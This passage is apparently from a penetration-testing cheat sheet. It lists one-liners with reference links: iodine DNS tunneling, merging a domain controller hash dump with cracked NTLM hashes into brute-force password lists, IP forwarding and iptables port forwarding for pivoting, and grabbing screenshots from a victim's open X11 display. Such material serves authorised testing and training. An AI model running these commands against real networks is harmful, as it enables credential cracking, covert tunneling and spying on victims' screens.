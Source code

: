 https://docs.python.org/2/library/simplehttpserver.html
__________
### 12. dns tunneling
```
iodine -P [pass] [server]
```
**- networking,pivoting**
#### References:

http://code.kryo.se/iodine/
http://calebmadrigal.com/dns-tunneling-with-iodine/
__________
### 13. create medusa or hydra password list from cracked hashes
```
cat DC_dump.txt | awk -F : '{print $1":"$4}' | sort -k 2 -t : > sorted_hash; cat ntlm_cracked | sort -k 1 > sorted_cracked; join -t : -1 2 sorted_hash -2 1 sorted_cracked  >> pass_info
```
**- pivoting,passwords,enumeration,user information,cracking**
#### References:

http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
__________
### 14. enable ip forwarding in the kernel temporarily
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
**- linux,bash,networking,pivoting**
#### References:

https://www.cyberciti.biz/faq/rhel-centos-fedora-linux-ip-forwarding-tutorial/
__________
### 15. Iptables port forward
```
iptables -t nat -A PREROUTING -p tcp -d [ip] --dport [port] -j LOG; iptables -t nat -A PREROUTING -p tcp -d [ip] --dport [port] -j DNAT --to-destination [rhost]:[rport]; iptables -A FORWARD -p tcp -d [ip] --dport [port] -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
```
**- linux,networking,pivoting**
#### References:

https://www.cyberciti.biz/tips/linux-iptables-examples.html
http://www.linuxhomenetworking.com/wiki/index.php/Quick_HOWTO_:_Ch14_:_Linux_Firewalls_Using_iptables
__________
### 16. take a screenshot from a open X11 and convert it to a jpg
```
xwd -display [victim] :0 -root -out /tmp/[victim].xpm;xwd -display ip :0 -root -out /tmp/[victim].xpm; convert /tmp/[victim]; xpm -resize 1280x1024 /tmp/[victim].jpg
```
**- linux,bash,pivoting,scanning**
#### References:
